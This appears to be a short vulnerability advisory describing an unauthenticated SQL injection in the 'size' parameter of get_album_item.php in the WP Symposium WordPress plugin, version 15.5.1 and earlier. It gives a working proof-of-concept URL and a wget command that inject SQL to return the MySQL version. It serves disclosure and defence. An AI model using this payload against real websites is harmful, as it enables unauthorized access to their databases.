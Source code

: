 # WP Symposium <= 15.5.1 - Unauthenticated SQL Injection
Description:<br>
Wordpress plugin wp-symposium version 15.5.1 (and probably all existing previous versions) suffers from an<br> unauthenticated SQL Injection in get_album_item.php, parameter 'size'.<br>

The issue is exploitable even if the plugin is deactivated.<br>
<br>
# Proof of Concept
<br>
PoC URL : http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--
<br><br>
PoC Command (Unix) : wget "http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--" -O output.txt
<br><br>
In the content of the HTTP response you will find the MySQL version, for example :
5.5.44-0+deb7u1 
<br>
<br>
 <h3>References</h3>
 https://www.exploit-db.com/exploits/37824<br>
 https://wpscan.com/vulnerability/8140
